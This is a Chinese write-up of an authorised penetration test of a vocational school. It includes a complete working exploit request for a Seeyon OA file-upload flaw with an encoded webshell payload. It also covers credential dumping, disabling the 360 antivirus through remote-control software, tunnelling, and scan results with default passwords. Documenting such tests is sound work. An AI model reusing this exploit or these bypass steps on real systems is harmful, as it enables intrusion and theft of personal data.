# 奇安信攻防社区-某学校授权渗透测试评估

### 某学校授权渗透测试评估

从今年的五月份正式接触渗透实战到现在我依旧觉得攻防的本质仍是信息收集并且自身的知识面决定了攻击面。若该篇文章存在错误恳请各位师傅们斧正；若您对该渗透流程有更好的建议或者不同的思路想法也烦请您不吝赐教。

# 某学校授权渗透测试评估

## 综述

## 渗透结果总结汇总如下表

| 渗透系统结果 | 攻击手段 |     |
| --- | --- | --- |
| 协同管理平台文件上传 | 致远OA-ajax.do任意文件上传 | xxx.xxx.xxx.xxx:7777 |
| 协同管理平台数据库权限 | 致远A8数据库密码解密 | xxx.xxx.xxx.xxx:7777 |
| 内网突破 | 向日葵远控软件绕过360+gotohttp远程控制+frp内网穿透+Proxifier代理 | 192.168.12.16 |
| 内网成果 | fscan64、弱口令、nday、1day | 192.168.12.1/24 |
| 横向移动获取主机权限 | CobaltStrike | 192.168.12.16 6 7 |
| 内网主机敏感信息泄露 | gotohttp远程控制 | 192.168.12.16 6 7 |

## 目标渗透路径详细说明

### 某职业技术学校协同管理平台存在任意文件上传

此时在给出的靶标中发现ip地址：xxx.xxx.xxx.xxx；我们针对该ip进行信息收集；通过网络空间安全测绘平台（鹰图平台、360网络空间测绘、FOFA）进行信息收集；此时发现其7777端口开放服务且搭建了一个致远OA系统



OA系统在攻防演练中都是兵家必争之地；此时我们可以直接搜索该OA的历史漏洞；手测之后发现其存在致远OA-ajax.do任意文件上传漏洞

#### 漏洞发现+利用

参考该文章：[https://www.cnblogs.com/p1ayeeee/p/14298608.html](https://www.cnblogs.com/p1ayeeee/p/14298608.html)



加入以下后缀：/seeyon/thirdpartyController.do.css/..;/ajax.do


发现漏洞存在；直接使用exp进行攻击：  
`POST /seeyon/autoinstall.do.css/..;/ajax.do?method=ajaxAction&managerName=formulaManager&requestCompress=gzip HTTP/1.1 Host: xxx.xxx.xxx.xxx:7777 Connection: close Cache-Control: max-age=0 Upgrade-Insecure-Requests: 1 User-Agent: Opera/9.80 (Macintosh; Intel Mac OS X 10.6.8; U; fr) Presto/2.9.168 Version/11.52 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.9 Sec-Fetch-Site: none Sec-Fetch-Mode: navigate Sec-Fetch-User: ?1 Sec-Fetch-Dest: document Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Cookie: JSESSIONID=7B6D8C106BD599DB0EF2F2E3B794A4FA; loginPageURL=; login\_locale=zh\_CN; Content-Type: application/x-www-form-urlencoded Content-Length: 8819 ​ managerMethod=validate&arguments=%1F%C2%8B%08%00%00%00%00%00%00%00uTK%C2%93%C2%A2H%10%3E%C3%AF%C3%BE%0A%C3%82%C2%8Bv%C3%B4%C2%8C%C2%8D+c%C2%BB%13%7Bh\_%C2%88%28\*%28%C2%AF%C2%8D%3D%40%15Ba%15%C2%B0%C3%B2%10%C3%AC%C2%98%C3%BF%C2%BE%05%C3%98%C3%93%3D%C2%B1%C2%BDu%C2%A9%C3%8C%C2%AC%C3%8C%C2%AF%C3%B2%C3%BD%C3%97k%C3%B7%14\_H%C2%8E%C2%9DC%C2%95x%C3%9D%3F%C2%98%C3%81%17%C3%A6M%C2%A28%C2%A4%C2%96t3%2F%C3%8D%C2%BA%C3%AF%C3%A2y%C2%99%5C%C2%BC4EqT%3Fj%C3%99%05E%3E%C2%938Y%C3%80%C3%BC%C3%89t%C3%BA%C3%BD%C2%A7%C2%AB%C3%A7%3AI%C2%92%3E%C2%A5%C2%9EW%C3%85%C3%91S%C3%A7%C3%BB%C3%AFL%7B%7E%0B%C2%9D%C3%82%C3%A9%C2%A3%C2%B8%C2%BF%C2%A3%26%C2%99qA%C2%99wa%C2%92w%C2%9A%C2%A3%00%C2%91we%3EQ%C3%AB%C3%95%C3%B8%C2%8F%1D%C2%AD%C2%81%3C%26%C3%90%C3%89%C2%BCA%3FL%C2%93%C2%B2%C3%B3%C3%B0%13%C2%9E%C2%B9%C2%BB%C2%92%06%1E%C3%86%C2%B5%2F%3B1%C2%B9%C2%81YR%C2%B9%C3%9C%C2%98%C2%95%C2%96A%C3%A6%C2%8A%C3%82mKj%19%C2%8B%C2%9C%C2%A5%C3%8A%C2%82Y%5C%C2%AC%C2%B9%24%C2%80d%C2%9E%03%5E%C3%8F%C3%97D%29%5Cm%2C%1F%07%2F%C3%85Q%5CD%C2%B6%26%C3%B9%C2%90%C3%A8%15%C3%A0p%C3%A1%C2%86%2C%C3%9Ah%C3%83J%0A%C2%87%C3%8FN%C2%A4%5C%C2%B7DM%00%C3%91C%28b%C3%8E%C3%96%C2%84%C2%ABe%40%2C%C2%898%03%C3%A2%C2%B8%C2%825%3EYp%C2%96%26%0C%C3%A8%7B%C2%BAFq%C3%9A%C3%B0%C2%A6%C2%9F%5B%C3%BCJ%00K%C2%B5%C3%B8TFqmc%C2%93%C3%8BH\*va%C3%B9%0F%C3%A0\_%C2%BE%C3%99%C2%A2%1E%C2%BA%C3%A2%C2%A2%C2%B2L5q%C2%B9%C3%A1%C2%A3%24\*%C2%A9e\*7iq%C3%B4m3%60mC8%C2%83j2%C2%A3%3A7%C3%80%C2%96%C2%85e%C2%A8%18D%C2%99.%C3%8F%5B%C2%BD%C2%838%0E%28F%25%C2%89%C2%9B%C3%84%C3%A3%C2%95%01%C2%A0%C2%B4L%C3%A9-%3F%C2%B8Bc%C2%95%3A%C3%86%C3%86%C3%9Fse%00%C3%B8%C2%8DoW%01%C3%B2L%15K%C2%8B%0CZ%08%C2%8Fh%7C%2C4W%C2%B9%C2%B4l%C3%AD%C3%96D%C3%856%C3%81%C2%B9%7Dl%C2%B1eQJ7%C3%93%12%C2%ADI%C2%89%5D%02Ygz%1E%C2%9DL%C3%B6%C2%99%C3%A6%C2%B4%C3%8E%C3%BB%C3%996j%C2%BDU%40s%40%C3%B3w%C3%8F%5B%C2%A4%C2%84%C2%80%C3%A0%2B%14K%0Cg%C3%82%01.W%C2%89K%C2%80%C3%AF%C3%9CXd%1F%C3%B6%03%C3%BB%C2%B0%C2%A9%C2%B6%C2%86%C2%8D%C2%ADP%3Fo%0F%C3%92%C3%80B%C3%92%08p%C3%BA%C2%AD%C2%A9%01%12%C2%AE%C3%90T%0D%C3%8B%28%07%C2%B6%C3%A6%23%C2%A8I%C2%A9S%C2%9DG%7B%0E\_%C2%9D6%C3%86%C3%B1%1B%C2%BD%26%10%C3%839%C2%A6uU%03%C2%97%28X%C2%9E%C2%AE%26%C2%AA%C2%BEA%C3%B2%21%0B%C3%974%06%C3%87%C3%9C%C3%87%1BT%C3%A6%C2%B6%09%C3%BC%23%C2%A7%C2%87u%C2%AC%1A%C2%A7%0BG%7E%C2%82%C2%AD%C3%8A%C2%8F%3F%C3%BC%19%C3%99%C2%BF%C3%BE%C2%99%C3%88%C2%95%C2%84d%C2%AD%C2%91O%C3%AB%7C%C2%81%C3%8AO%C3%96o%C3%B8%C3%9Ay%C3%A4%12%C2%9D%C2%A7%C3%B5%C2%89%C2%A1%18%24%C2%A0j%C3%B4%C3%9A%C3%BA%C3%94z%C2%8D\_%C2%BF%C3%96F%C2%9E%C2%9E%C2%A9%1C%C3%84V%25%C2%9C%5D%C3%96%C2%A6%C3%B9X%C2%A4%C2%B2%28%60XMn%C3%90%18%C3%A6%C2%AE%C2%81o%C3%B4m%C2%BA%C3%97%C2%95%C2%85%12%C2%AAs%C2%9A%C3%97%C3%A2n%C2%977%C3%BD%C3%81%C2%A9x%1F%C3%A9%C3%84%C2%A6%C2%BD\*%2FW%18%C2%98%3A%06%C3%BC%3E%C2%B79%C2%9D%3D%12%C3%BD%C3%AD%C2%8F%1C%C3%944%C2%9D%5E%C2%97%1Cc%C3%AAgBc%C2%A0%C3%B1%C3%83%C2%95%1B%29%C2%ACe%08%21%C2%8D%C2%8F%C3%BA%C2%A1%C2%97%C3%90X%C2%A4%C2%A0%0A%C2%9A%C2%9E%C3%9Es%C3%A3%1C%C2%8A%C3%BA%10%C3%92%C3%9A%C3%AE%C2%A6%C3%A3%C2%A6%27%01%C2%A7T%C2%8E9a%5DQgw%C3%A1%C2%B5h%C3%AB%C2%BA\*%5C%7E%C3%BF%C3%B8%3E%C3%ADL%C2%9AG%7D%C2%82R%C3%90%C2%9F%C2%BCh%C3%B3o%C3%83%C2%99%07bH%07%1E%C3%9E%C3%AFv%C3%96%3FW%C3%AA%C3%BDw%C2%AA%5B%C2%B3%3B%C3%93%C3%9A%C2%B6L%C3%AF%0E%C3%98o%C3%AFI%7E%3AQ%C2%80f%09%3C%7C%C3%A9%1C%0F%C2%8B%C2%AF%C3%8F%1F%C2%97%C3%84%C3%87%7D%C3%93o%18%1C%C3%B5%3E%C2%82%C3%BF%C2%9F.%C3%80q%C3%AAQ%C3%87%7E%7C%C2%AF%C3%B7%21%25%C2%A0wb%C3%92%C3%8C%C3%89%10%60%C3%8A%C2%B2%C3%AC%3D%C2%BCv%7F%C3%90%25I%17%C3%A5k%7Dg%C2%97%C3%9C%C3%AB%C3%BE%C3%BD%2FheA%C3%A4\_%05%00%00`

exp攻击成功!



直接连接webshell



且为Administrator权限

#### 获取数据库权限

利用该文章获取数据库权限:[https://www.cmdhack.com/archives/212.html](https://www.cmdhack.com/archives/212.html)



#### 数据库敏感信息

此时继续浏览该数据库，发现存在大量的个人敏感信息

### 协同管理平台内网突破

此时拿到该web权限之后我们先不着急进行内网隧道的搭建；先对其运行的进程进行查看看是否存在杀软



此时发现存在360的杀软进程；那么此时我们就不能贸然的直接上传frp进行内网穿透；可以看看是否开启3389端口



此时发现目标机器开启了3389端口；接下来使用猕猴桃直接抓取密码看看能否rdp成功，同时也为后续的内网横向做准备



尝试远程连接；但是经过尝试发现该rdp无法成功（可能需要内网环境才行）

#### 利用新版向日葵ini文件进行远控，绕过360杀软

此时因为存在360杀软，对我们后续的渗透十分的不利；需要找个办法进行绕过，因为时间紧急来不及做免杀了；此时我们先对该主机进行信息收集；查看进程后发现存在向日葵远控软件，此时我们直接利用新版向日葵ini文件进行登入；然后关闭360，并对我们后续的渗透工具进行加白

#### 远程控制

接下来变尝试远程控制；直接在目标机器上传gotohttp且运行；此时会在gotohttp目录下生成一个gotohttp.ini文件；里面记录了机器码和密码可以直接进远控（新版向日葵ini文件）

  
远程控制后先关360并可以新建个目录来存放我们稍后要上传的frp；创建目录之后再给该目录添加信任项

完成远控之后；我们可以先传一个fscan64进行内网资产的扫描；趁着fscan64在扫描，我们先搭建个内网隧道（frp+Proxifier，目标机器出网前提下；当目标机器不出网且对特征流量存在识别时可以使用suo5正向代理突破穿透内网）

### 内网成果（C段）

#### fscan+弱口令+nday

fscan扫描c段资产结果

```php
192.168.12.5:80 open  
192.168.12.1:80 open  
192.168.12.6:888 open  
192.168.12.6:21 open  
192.168.12.6:80 open  
192.168.12.6:445 open  
192.168.12.1:443 open  
192.168.12.16:139 open  
192.168.12.5:443 open  
192.168.12.6:139 open  
192.168.12.16:135 open  
192.168.12.6:135 open  
192.168.12.16:445 open  
192.168.12.7:3306 open  
192.168.12.5:8000 open  
192.168.12.6:8089 open  
192.168.12.7:445 open  
192.168.12.6:3306 open  
192.168.12.5:8300 open  
192.168.12.6:8888 open  
192.168.12.6:9010 open  
192.168.12.5:9080 open  
192.168.12.6:9091 open  
192.168.12.6:9090 open  
192.168.12.6:9092 open  
192.168.12.6:9093 open  
192.168.12.6:9094 open  
192.168.12.6:9095 open  
192.168.12.6:9096 open  
192.168.12.6:9097 open  
192.168.12.6:9098 open  
192.168.12.6:9099 open  
\[+\] 192.168.12.16   MS17-010    (Windows Server 2008 R2 Standard 7600)  
\[\*\] NetInfo:  
\[\*\]192.168.12.6  
   \[->\]WIN-J84MQH3KHI7  
   \[->\]192.168.12.6  
\[\*\] WebTitle: http://192.168.12.6:888   code:403 len:199    title:403 Forbidden  
\[\*\] NetInfo:  
\[\*\]192.168.12.16  
   \[->\]WIN-PHV3HDGMNN2  
   \[->\]192.168.12.16  
\[\*\] WebTitle: http://192.168.12.5       code:301 len:56     title:None 跳转url: https://192.168.12.5/  
\[\*\] WebTitle: http://192.168.12.6:9099  code:200 len:11992  title:Test Page for Apache Installation  
\[+\] 192.168.12.6    MS17-010    (Windows Server 2008 R2 Standard 7600)  
\[\*\] WebTitle: http://192.168.12.6:9010  code:200 len:11992  title:Test Page for Apache Installation  
\[\*\] WebTitle: http://192.168.12.6       code:200 len:11992  title:Test Page for Apache Installation  
\[\*\] WebTitle: https://192.168.12.5      code:200 len:258    title:None  
\[\*\] NetBios: 192.168.12.6    WORKGROUP\\WIN-J84MQH3KHI7           Windows Server 2008 R2 Standard 7600   
\[\*\] WebTitle: http://192.168.12.1       code:301 len:0      title:None 跳转url: https://192.168.12.1/simple/view/login.html  
\[\*\] WebTitle: https://192.168.12.5:9080 code:202 len:0      title:None  
\[\*\] NetBios: 192.168.12.16   WORKGROUP\\WIN-PHV3HDGMNN2           Windows Server 2008 R2 Standard 7600   
\[\*\] WebTitle: http://192.168.12.6:9096  code:301 len:3      title:None 跳转url: http://192.168.12.6:9096/index.html  
\[\*\] WebTitle: https://192.168.12.1      code:301 len:0      title:None 跳转url: https://192.168.12.1/simple/view/login.html  
\[\*\] WebTitle: http://192.168.12.6:8888  code:302 len:219    title:Redirecting... 跳转url: http://192.168.12.6:8888/login  
\[\*\] WebTitle: http://192.168.12.6:9091  code:200 len:20296  title:&#27431;&#23453;&#23448;&#26041;&#20307;&#32946;&#65;&#80;&#80;&#19979;&#36733;&#124;&#25163;&#26426  
\[\*\] WebTitle: https://192.168.12.5/     code:200 len:258    title:None  
\[\*\] WebTitle: http://192.168.12.6:9090  code:302 len:0      title:None 跳转url: http://192.168.12.6:9090/index/login/index.html  
\[\*\] WebTitle: http://192.168.12.6:9093  code:302 len:3      title:None 跳转url: http://192.168.12.6:9093/admin/index/index  
\[\*\] WebTitle: http://192.168.12.6:9095  code:302 len:0      title:None 跳转url: http://192.168.12.6:9095/index/login/login.html  
\[\*\] WebTitle: http://192.168.12.6:9094  code:200 len:24778  title:xxx学院  
\[\*\] WebTitle: http://192.168.12.6:9097  code:302 len:0      title:None 跳转url: http://192.168.12.6:9097/index/login/login.html  
\[\*\] WebTitle: https://192.168.12.1/simple/view/login.html code:200 len:51345  title:None  
\[\*\] WebTitle: http://192.168.12.6:9096/index.html code:200 len:10170  title:官网|  
\[\*\] WebTitle: http://192.168.12.6:9092  code:302 len:3      title:None 跳转url: http://192.168.12.6:9092/publics/login  
\[\*\] WebTitle: http://192.168.12.6:8888/login code:200 len:15504  title:宝塔Windows面板  
\[\*\] WebTitle: http://192.168.12.6:9095/index/login/login.html code:200 len:3503   title:None  
\[\*\] WebTitle: https://192.168.12.1/simple/view/login.html code:200 len:51345  title:None  
\[\*\] WebTitle: http://192.168.12.6:9090/index/login/index.html code:200 len:5656   title:登录 - 人事档案管理系统  
\[\*\] WebTitle: http://192.168.12.6:9093/admin/login/index code:200 len:2832   title:登录页  
\[+\] InfoScan:http://192.168.12.6:9094  \[ThinkPHP\]   
\[\*\] WebTitle: http://192.168.12.6:9098  code:200 len:21272  title:首页  
\[\*\] WebTitle: http://192.168.12.6:9092/publics/login code:200 len:7198   title:None  
\[\*\] WebTitle: http://192.168.12.6:9097/index/login/login.html code:200 len:3503   title:None  
\[\*\] WebTitle: http://192.168.12.6:8089  code:200 len:1446   title:微信密钥管理系统  
\[+\] http://192.168.12.6:9096 poc-yaml-dedecms-cve-2018-6910   
\[+\] http://192.168.12.6:9092 poc-yaml-thinkphp5023-method-rce poc1  
\[+\] http://192.168.12.6:9098 poc-yaml-thinkphp5-controller-rce   
\[+\] http://192.168.12.6:9098 poc-yaml-thinkphp5023-method-rce poc1  
\[+\] http://192.168.12.6:9090 poc-yaml-thinkphp5023-method-rce poc1  
\[+\] http://192.168.12.6:9090 poc-yaml-thinkphp5-controller-rce 
```

此时我们可以先对c段资产做一下信息收集（指纹、是否存在nday或1day）

```php
https://192.168.12.5/ui/#/login  -->  vmware esxi主机  
http://192.168.12.6:9099/  --> apache  
http://192.168.12.6:9010  --> apache  
http://192.168.12.6  --> apache  
https://192.168.12.1/simple/view/login.html  -->LANSwitch  
http://192.168.12.6:9094/index.php/Home/Index/index.html -->学院自主招生报名流程  
http://192.168.12.6:9096/index.html  --> 某职业技术学校官网  
http://192.168.12.6:8888/login  --> 宝塔  
http://192.168.12.6:9090/teacher/index/index.html  --> 人事档案管理 admin/123456  
http://192.168.12.6:9093/admin/login/index  --> 某职业技术学校官网实习管理系统  
http://192.168.12.6:9095/index/index/index.html  -->  移动实时报修管理系统  admin/123456  
http://192.168.12.6:9097/index/login/login.html-->  移动实时报修管理系统  admin/123456  
http://192.168.12.6:9092/index/index  --> 课堂教学行为管理 admin/123456  
http://192.168.12.6:8089/login/index  --> 微信密钥管理系统  
http://192.168.12.6:9098/ --> 某职校智慧校园大数据
...
```

利用弱口令+n/1day也是拿下部分c段资产的web权限  
敏感信息泄露太多这里放出一个人事管理系统进行参考；这里抱歉只能厚码



### 内网成果（b段）

后续的b段资产的渗透过程也是如上；这里就不在过多赘诉

### 内网横向移动

#### CobaltStrike

此时我们通过对上述内网c段的扫描发现有些主机有开启135、139、445端口,且此时获取权限的机器有开启远程IPC;此时我们可以试试能否横向移动

```php
192.168.12.5:80 open  
192.168.12.1:80 open  
192.168.12.6:888 open  
192.168.12.6:21 open  
192.168.12.6:80 open  
192.168.12.6:445 open  
192.168.12.1:443 open  
192.168.12.16:139 open  
192.168.12.5:443 open  
192.168.12.6:139 open  
192.168.12.16:135 open  
192.168.12.6:135 open  
192.168.12.16:445 open  
192.168.12.7:3306 open  
192.168.12.5:8000 open  
192.168.12.6:8089 open  
192.168.12.7:445 open  
192.168.12.6:3306 open  
192.168.12.5:8300 open  
192.168.12.6:8888 open  
192.168.12.6:9010 open  
192.168.12.5:9080 open  
192.168.12.6:9091 open  
192.168.12.6:9090 open  
192.168.12.6:9092 open  
192.168.12.6:9093 open  
192.168.12.6:9094 open  
192.168.12.6:9095 open  
192.168.12.6:9096 open  
192.168.12.6:9097 open  
192.168.12.6:9098 open  
192.168.12.6:9099 open
```

